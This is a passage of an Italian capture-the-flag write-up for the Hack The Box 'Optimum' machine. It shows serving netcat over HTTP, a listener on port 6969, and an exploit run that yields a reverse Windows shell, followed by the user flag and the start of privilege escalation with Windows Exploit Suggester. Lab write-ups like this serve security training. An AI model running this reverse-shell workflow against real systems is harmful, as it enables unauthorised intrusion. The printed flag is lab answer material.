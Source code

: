 Seguendo le istruzione del exploit tiriamo su un server per consentire a nc di essere scaricato

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# python -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
```

in un altra finestra ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 6969
listening on [any] 6969 ...
```

Siamo pronti per lanciare l'exploit
> *dal codice capito che dobbiamo usare python2 per via delle libreira "urllib2")*

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# python2 39161.py 10.10.10.8 80
```
 
Otteniamo cosi una shell
```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

Abbimao la nostra flag users

C:\Users\kostas\Desktop>type user.txt
type user.txt
a1e587df49c11191ac205e30bd5036a9

# PRIVESC

Utilizzeremo Windows Exploit Suggester per identificare eventuali patch mancanti sul computer
che potrebbero potenzialmente consentirci di aumentare i privilegi.

Scarichiamo lo script:
```bash
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

Installiamo le dipendenze
>*per le dipendenze https://github.com/AonCyberLabs/Windows-Exploit-Suggester/issues/43*

```
python2 -m pip istall -user xlrd==1.1.0
```
Creaimo il datebase
```bash
python2 windows-exploit-suggester.py --update
```
